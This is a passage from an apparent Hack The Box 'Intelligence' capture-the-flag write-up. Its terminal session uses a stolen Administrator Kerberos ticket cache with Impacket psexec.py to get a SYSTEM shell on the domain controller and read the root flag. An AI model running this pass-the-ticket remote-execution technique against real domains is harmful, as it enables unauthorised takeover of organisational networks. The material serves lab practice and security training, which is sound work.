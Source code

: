 ```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ export KRB5CCNAME=Administrator.ccache

┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ psexec.py -k -no-pass Administrator@dc.intelligence.htb 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on dc.intelligence.htb.....
[*] Found writable share ADMIN$
[*] Uploading file VThHSqiz.exe
[*] Opening SVCManager on dc.intelligence.htb.....
[*] Creating service fTtB on dc.intelligence.htb.....
[*] Starting service fTtB.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1879]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
dc

C:\Windows\system32> cd C:\Users\ADminisitrator
The system cannot find the path specified.

C:\Users\Administrator> tree /f /a
Folder PATH listing
Volume serial number is E3EF-EBBD
C:.
+---3D Objects
+---Contacts
+---Desktop
|       root.txt
|       
+---Documents
|   \---WindowsPowerShell
|       \---Scripts
|           \---InstalledScriptInfos
+---Downloads
+---Favorites
+---Links
+---Music
+---Pictures
+---Saved Games
+---Searches
\---Videos

C:\Users\Administrator> type Desktop\root.txt
3b69d7328bd6b1ff7700a2ca03a5ac48

C:\Users\Administrator>
```
{: .nolineno}

I am Domain Admin Now !!